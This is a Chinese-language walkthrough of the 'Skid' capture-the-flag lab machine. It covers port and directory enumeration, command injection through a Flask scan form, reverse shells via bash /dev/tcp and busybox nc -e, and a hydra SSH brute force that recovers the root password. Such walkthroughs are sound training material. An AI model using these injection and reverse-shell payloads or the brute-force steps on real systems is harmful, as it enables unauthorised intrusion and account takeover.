




# Skid


第三个靠自己打出来的靶机。

## 信息收集

### 端口扫描

```sh
root@kali:~# arp-scan -l                           
Interface: eth0, type: EN10MB, MAC: 08:00:27:8a:35:d2, IPv4: 192.168.56.101
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0d       (Unknown: locally administered)
192.168.56.100  08:00:27:fc:90:00       PCS Systemtechnik GmbH
192.168.56.105  08:00:27:31:2a:f0       PCS Systemtechnik GmbH

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.099 seconds (121.96 hosts/sec). 3 responded
root@kali:~# nmap 192.168.56.105 -p-               
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-05 18:25 -0400
Nmap scan report for 192.168.56.105
Host is up (0.0012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
MAC Address: 08:00:27:31:2A:F0 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 23.16 seconds
root@kali:~# nmap 192.168.56.105 -p 22,5000 -sC -sV
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-05 18:26 -0400
Nmap scan report for 192.168.56.105
Host is up (0.0011s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8e:4d:46:ba:2a:04:65:08:e2:85:09:7d:e6:1a:d7:b3 (RSA)
|   256 52:f9:f6:8a:3a:21:05:84:20:01:4f:fd:bd:17:24:44 (ECDSA)
|_  256 db:87:52:e5:d3:ff:2b:92:e8:f2:91:0a:85:63:33:db (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.6 (Python 3.8.10)
|_http-title: Jeremy's Hacker Panel
|_http-server-header: Werkzeug/3.0.6 Python/3.8.10
MAC Address: 08:00:27:31:2A:F0 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.50 seconds
```

### 5000端口的服务识别与分析

```sh
root@kali:/tmp/123# feroxbuster --url http://192.168.56.105:5000/ --wordlist /usr/share/wordlists/dirb/common.txt 
                                                                                                                        
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.105:5000/
 🚩  In-Scope Url          │ 192.168.56.105
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       30l       39w      463c http://192.168.56.105:5000/scan
200      GET       35l       44w      522c http://192.168.56.105:5000/payload
200      GET       78l      158w     1245c http://192.168.56.105:5000/static/style.css
200      GET       28l       52w      541c http://192.168.56.105:5000/
[####################] - 28s     4618/4618    0s      found:4       errors:0      
[####################] - 28s     4614/4614    167/s   http://192.168.56.105:5000/   
```

枚举发现：

* scan
* payload
* static/style.css

nmap 的指纹识别：`Werkzeug httpd 3.0.6 (Python 3.8.10)`



/scan的功能：端口扫描



/payload的功能：生成反弹shell的payload

该网站用户可以控制三个输入点：`target、ip、port`。

/scan路由是将namp扫描ip端口的结果发送给我们，这里经过了终端，从返回结果可以看出：`nmap -T4 -oN /tmp/scan.txt 192.168.56.101`，我们输入的 `ip` 在最后，尝试拼接命令：

```sh
1;whoami;
```



有回显结果，说明这里可以进行命令执行。

## 远程命令执行漏洞利用

```sh
1;bash -i >& /dev/tcp/192.168.56.101/39666 0>&1;
```



报错：`Bad fd number`

从报错内容看：使用的`shell`是`sh`，错误的文件描述符数字，报错可能是`>& | 0>&1`导致的。

```sh
;busybox;
```

发现此系统存在`busybox`。

```sh
;busybox nc 192.168.56.101 39666 -e /bin/bash;
# 终端1
root@kali:/tmp/123# nc -lvnp 39666                        
listening on [any] 39666 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.105] 42540
id
uid=1000(jeremy) gid=1000(jeremy) groups=1000(jeremy)
# 攻击者终端
```

## 反向shell的优化

```sh
script -qc /bin/bash /dev/null
jeremy@skid:~$ ^Z
zsh: suspended  nc -lvnp 39666
root@kali:/tmp/123# 
root@kali:/tmp/123# stty raw -echo;fg
[1]  + continued  nc -lvnp 39666
                                reset
                              
jeremy@skid:~$ export TERM=xterm-256color
jeremy@skid:~$ export SHELL=/bin/bash
jeremy@skid:~$ source .bashrc
```

## 系统信息枚举

```sh
jeremy@skid:~$ ls -al
total 72
drwxr-xr-x 9 jeremy jeremy  4096 Nov 14 14:59 .
drwxr-xr-x 3 root   root    4096 Nov 13 20:45 ..
drwxrwxr-x 4 jeremy jeremy  4096 Nov 14 13:22 app
lrwxrwxrwx 1 root   root       9 Nov 14 10:20 .bash_history -> /dev/null
-rw-r--r-- 1 jeremy jeremy   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 jeremy jeremy  3796 Nov 14 13:42 .bashrc
drwx------ 3 jeremy jeremy  4096 Nov 14 09:09 .cache
-rw-rw-r-- 1 jeremy jeremy  1056 Nov 14 14:59 changes.txt
drwxrwxr-x 2 jeremy jeremy  4096 Nov 13 20:49 hacking-tools
drwx------ 4 jeremy jeremy  4096 Nov 14 09:09 .local
-rw-r--r-- 1 jeremy jeremy   807 Feb 25  2020 .profile
-rw-rw-r-- 1 jeremy jeremy    75 Nov 14 13:25 .selected_editor
drwx------ 2 jeremy jeremy  4096 Nov 13 20:45 .ssh
-rw-r--r-- 1 jeremy jeremy     0 Nov 13 20:46 .sudo_as_admin_successful
-rw-rw-r-- 1 jeremy jeremy    38 Nov 14 08:51 user.txt
drwxr-xr-x 2 jeremy jeremy  4096 Nov 14 13:32 .vim
-rw------- 1 jeremy jeremy 11223 Nov 14 14:59 .viminfo
drwxrwxr-x 2 jeremy jeremy  4096 Nov 14 14:58 wordlists
```

* `.sudo_as_admin_successful`: 说明该用户有root用户发放的`sudo`特权
* `.viminfo`: vim 工具留下的配置文件，可以查看vim操作的一些历史信息

```sh
jeremy@skid:~$ cat .viminfo
# This viminfo file was generated by Vim 8.1.
# You may edit it if you're careful!

# Viminfo version
|1,4

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Last Search Pattern:
~MSle0~/tools

# Last Substitute String:
$

# Command Line History (newest to oldest):
:wq
|2,0,1763132376,,"wq"
:w
|2,0,1763126670,,"w"
:q
|2,0,1763114826,,"q"
:0
|2,0,1763114187,,"0"
:q!
|2,0,1763112759,,"q!"
:199
|2,0,1763111513,,"199"
:1999
|2,0,1763067739,,"1999"

# Search String History (newest to oldest):
? @$
|2,1,1763127148,,"@$"
?/tools
|2,1,1763114793,47,"tools"
?/PATH
|2,1,1763111434,47,"PATH"
? \<you2025\>
|2,1,1763067663,,"\\<you2025\\>"

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Debug Line History (newest to oldest):

# Registers:
"0      CHAR    0
        ***
|3,0,0,0,1,0,1763127154,"***"
""1     LINE    0
        export PATH=$PATH:/home/jeremy/.local/bin
|3,1,1,1,1,0,1763127736,"export PATH=$PATH:/home/jeremy/.local/bin"
"2      LINE    0
        Made it so that Nmap can run without password and always run with root
        Nmap is a tool that should ALWAYS be run by root 
        - jeremy
|3,0,2,1,3,0,1763126645,"Made it so that Nmap can run without password and always run with root","Nmap is a tool that should ALWAYS be run by root ","- jeremy"
"3      LINE    0
            <li><a href="/tools">My Tools</a></li>
|3,0,3,1,1,0,1763114821,"    <li><a href=\"/tools\">My Tools</a></li>"
"4      LINE    0
                # read scan output too (optional)
|3,0,4,1,1,0,1763114810,"        # read scan output too (optional)"
"5      LINE    0
                # Vulnerable execution
|3,0,5,1,1,0,1763114798,"        # Vulnerable execution"
"6      LINE    0
            <a href="/tools">Tools</a>
|3,0,6,1,1,0,1763114767,"    <a href=\"/tools\">Tools</a>"
"7      LINE    0

|3,0,7,1,1,0,1763114716,""
"8      LINE    0
            return render_template("tools.html", files=files, path=path)
|3,0,8,1,1,0,1763114715,"    return render_template(\"tools.html\", files=files, path=path)"
"9      LINE    0

|3,0,9,1,1,0,1763114715,""
"-      CHAR    0
        Games
|3,0,36,0,1,0,1763127484,"Games"

# File marks:
'0  28  0  ~/changes.txt
|4,48,28,0,1763132376,"~/changes.txt"
'1  9  0  /tmp/shell.nse
|4,49,9,0,1763129241,"/tmp/shell.nse"
'2  29  0  ~/.bashrc
|4,50,29,0,1763127737,"~/.bashrc"
'3  31  28  ~/changes.txt
|4,51,31,28,1763127490,"~/changes.txt"
'4  31  28  ~/changes.txt
|4,52,31,28,1763127490,"~/changes.txt"
'5  1  73  ~/wordlists/secure-passwds.txt
|4,53,1,73,1763127172,"~/wordlists/secure-passwds.txt"
'6  34  0  ~/changes.txt
|4,54,34,0,1763127105,"~/changes.txt"
'7  34  0  ~/changes.txt
|4,55,34,0,1763127105,"~/changes.txt"
'8  34  0  ~/changes.txt
|4,56,34,0,1763127105,"~/changes.txt"
'9  34  0  ~/changes.txt
|4,57,34,0,1763127105,"~/changes.txt"

# Jumplist (newest first):
-'  28  0  ~/changes.txt
|4,39,28,0,1763132376,"~/changes.txt"
-'  31  0  ~/changes.txt
|4,39,31,0,1763132373,"~/changes.txt"
-'  9  0  /tmp/shell.nse
|4,39,9,0,1763129241,"/tmp/shell.nse"
-'  9  0  /tmp/shell.nse
|4,39,9,0,1763129241,"/tmp/shell.nse"
-'  1  0  /tmp/shell.nse
|4,39,1,0,1763129240,"/tmp/shell.nse"
-'  1  0  /tmp/shell.nse
|4,39,1,0,1763129240,"/tmp/shell.nse"
-'  29  0  ~/.bashrc
|4,39,29,0,1763127737,"~/.bashrc"
-'  29  0  ~/.bashrc
|4,39,29,0,1763127737,"~/.bashrc"
-'  29  0  ~/.bashrc
|4,39,29,0,1763127737,"~/.bashrc"
-'  29  0  ~/.bashrc
|4,39,29,0,1763127737,"~/.bashrc"
-'  19  9  ~/.bashrc
|4,39,19,9,1763127733,"~/.bashrc"
-'  19  9  ~/.bashrc
|4,39,19,9,1763127733,"~/.bashrc"
-'  19  9  ~/.bashrc
|4,39,19,9,1763127733,"~/.bashrc"
-'  19  9  ~/.bashrc
|4,39,19,9,1763127733,"~/.bashrc"
-'  31  28  ~/changes.txt
|4,39,31,28,1763127490,"~/changes.txt"
-'  31  28  ~/changes.txt
|4,39,31,28,1763127490,"~/changes.txt"
-'  31  28  ~/changes.txt
|4,39,31,28,1763127490,"~/changes.txt"
-'  31  28  ~/changes.txt
|4,39,31,28,1763127490,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127474,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127474,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127474,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127474,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127474,"~/changes.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  1  73  ~/wordlists/secure-passwds.txt
|4,39,1,73,1763127172,"~/wordlists/secure-passwds.txt"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  8  0  ~/wordlists
|4,39,8,0,1763127152,"~/wordlists"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127105,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127105,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127105,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127105,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127105,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127105,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127105,"~/changes.txt"
-'  34  0  ~/changes.txt
|4,39,34,0,1763127105,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127067,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127054,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127054,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127054,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127054,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127054,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127054,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127054,"~/changes.txt"
-'  21  4  ~/changes.txt
|4,39,21,4,1763127054,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"
-'  2  0  ~/changes.txt
|4,39,2,0,1763126924,"~/changes.txt"

# History of marks within files (newest to oldest):

> ~/changes.txt
        *       1763132375      0
        "       28      0
        ^       31      29
        .       31      28
        +       1       0
        +       33      36
        +       24      11
        +       3       0
        +       23      9
        +       24      0
        +       23      0
        +       25      0
        +       24      74
        +       20      65
        +       21      57
        +       20      21
        +       35      0
        +       31      28

> /tmp/shell.nse
        *       1763129241      0
        "       9       0
        ^       9       0
        .       8       3
        +       8       3

> ~/.bashrc
        *       1763127737      0
        "       29      0
        ^       19      10
        .       29      0
        +       52      32
        +       29      40
        +       29      0
        +       22      16
        +       26      11
        +       20      13
        +       19      9
        +       29      0

> ~/wordlists/secure-passwds.txt
        *       1763127168      0
        "       1       73
        ^       1       74
        .       1       73
        +       1       4
        +       15      13
        +       1       3
        +       16      0
        +       1       73

> /tmp/crontab.9NCTsd/crontab
        *       1763126769      0
        "       24      49
        ^       24      50
        .       24      49
        +       24      49

> ~/app/templates/index.html
        *       1763125857      0
        "       7       24
        ^       9       27
        .       9       26
        +       1       27
        +       11      14
        +       5       42
        +       9       43
        +       9       26

> ~/app/changes.txt
        *       1763125844      0
        "       3       0
        ^       3       0
        .       3       0
        +       2       49
        +       3       0

> ~/app/app.py
        *       1763114816      0
        "       53      0
        .       29      0
        +       52      36
        +       50      14
        +       52      36
        +       11      57
        +       11      0
        +       11      52
        +       11      36
        +       11      0
        +       11      44
        +       11      54
        +       11      0
        +       11      7
        +       11      44
        +       35      54
        +       2       16
        +       50      0
        +       50      38
        +       50      0
        +       19      0
        +       15      38
        +       21      34
        +       29      0

> ~/app/templates/layout.html
        *       1763114769      0
        "       21      0
        ^       21      0
        .       13      0
        +       20      7
        +       13      0

> ~/app/templates/tools.html
        *       1763114189      0
        "       14      0
        ^       14      0
        .       13      14
        +       1       27
        +       13      14

> ~/app/templates/payload.html
        *       1763114179      0
        "       19      0
        ^       19      0
        .       18      14
        +       1       27
        +       18      14

> ~/app/templates/scan.html
        *       1763114166      0
        "       14      0
        ^       14      0
        .       13      14
        +       1       27
        +       13      14

> ~/app/static/style.css
        *       1763113966      0
        "       78      0
        ^       78      0
        .       77      1
        +       77      1

> ~/app/templates/scan.htm
        *       1763111195      0
        "       1       0

> ~/user.txt
        *       1763110266      0
        "       1       35
        ^       1       36
        .       2       0
        +       1       36
        +       2       0

> ~/wordlists/rockyou-2.txt
        *       1763067684      0
        "       1       51
        ^       1       52
        .       1       52
        +       1       8
        +       1       12
        +       1       0
        +       1       10
        +       1       0
        +       16      0
        +       15      12
        +       16      0
        +       1       52

> ~/hacking-tools/ddos-attacker-5000.py
        *       1763066955      0
        "       4       28
        ^       4       29
        .       4       28
        +       4       13
        +       3       40
        +       4       28
```

* `changes.txt`
* `~/wordlists/secure-passwds.txt`

这两个文件，在vim中被操作了很多次。

```
jeremy@skid:~$ cat changes.txt 
SYSTEM CHANGES I MADE

1. Made nmap run as root always bc it's more 1337
   - This means I can run nmap as root without password!!!
   - My hacker friend said this is how real hackers do it

2. Made my web server start automatically on boot
   - Used systemd stuff that I dont really understand
   - But it works so who cares lol

3. Running my flask app as my user not root
   - My mom said never run things as root
   - But nmap needs root so thats different

4. Firewall is disabled bc it was blocking my scans
   - ufw disable - YOLO

5 CUSTOM WORDLISTS MADE BY ME YEAHHHHHHHHH
   - rockyou-2.txt --> Improved version of rockyou.txt made by ME
   - secure-passwds.txt --> Secure passwords that I made!!

6. Made some hacking tools too cause my mom said I need to learn to program
   - Had to vibe code with AI but who cares if my mom believes I did hahaha 


HACKER NOTES
- Found this cool site: gtfobins.github.io
- Metasploit is too hard to install
- Learning SQL injection next
- My favorite showi: Mr Robot 

"if u cant beat them, hack them" - me
```

AI翻译：

```
SYSTEM CHANGES I MADE
我做过的系统改动

让 nmap 总是以 root 身份运行，因为这样更“厉害”

这意味着我可以不用密码就以 root 身份运行 nmap！！！
我那个黑客朋友说真正的黑客都是这么干的
让我的 Web 服务器开机自动启动

用了些我其实不太懂的 systemd 东西
但能跑就行，谁在乎呢，哈哈
让我的 Flask 应用以我的普通用户身份运行，而不是 root

我妈说永远别用 root 跑东西
但 nmap 需要 root，所以那不一样
防火墙被我关了，因为它老是挡我的扫描

ufw disable —— YOLO（放飞自我）
我自己做的自定义字典，耶啊啊啊啊啊啊

rockyou-2.txt --> 我做的 rockyou.txt 加强版
secure-passwds.txt --> 我自己做的安全密码列表！！
还做了一些黑客工具，因为我妈说我得学编程

只能靠 AI 一边瞎写一边凑，但只要我妈信是我写的就行，哈哈哈
HACKER NOTES
黑客笔记

发现了一个很酷的网站：gtfobins.github.io
Metasploit 太难装了
下一步学 SQL 注入
我最喜欢的剧：Mr Robot
“如果打不过他们，那就黑进他们。” —— 我
```

`secure-passwds.txt --> 我自己做的安全密码列表！！` ，里面可能存在root密码。

```sh
jeremy@skid:~$ cat ~/wordlists/secure-passwds.txt 
# You know these passwords are secure because they're not in rockyou.txt!!
passw0rd
h@ck3r
l33tsp34k
sup3rh4x0r
pwned
0v3rr1d3
shadowlord
r00tacc3ss
s3cr3t_k3y
sk1ddl3
p0w3rful
SecureP@ss123!
undetectable
anonymous
darkwebaccess
```

`hydra` 爆破 `ssh` 密码:

```sh
root@kali:~# cd /tmp/123
root@kali:/tmp/123# vim password.txt
root@kali:/tmp/123# hydra -l root -P password.txt ssh://192.168.56.105
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-05 19:41:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:1/p:15), ~1 try per task
[DATA] attacking ssh://192.168.56.105:22/
[22][ssh] host: 192.168.56.105   login: root   password: sk1ddl3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-05-05 19:41:38
```

爆破出密码是：`sk1ddl3`。

## root登陆

```sh
root@kali:/tmp/123# ssh root@192.168.56.105 -p 22
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
root@192.168.56.105's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 05 May 2026 11:45:02 PM UTC

  System load:  0.1                Processes:               117
  Usage of /:   44.8% of 11.21GB   Users logged in:         0
  Memory usage: 13%                IPv4 address for enp0s3: 192.168.56.105
  Swap usage:   0%

 * Ubuntu 20.04 LTS Focal Fossa has reached its end of standard support on 31 Ma
 
   For more details see:
   https://ubuntu.com/20-04

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
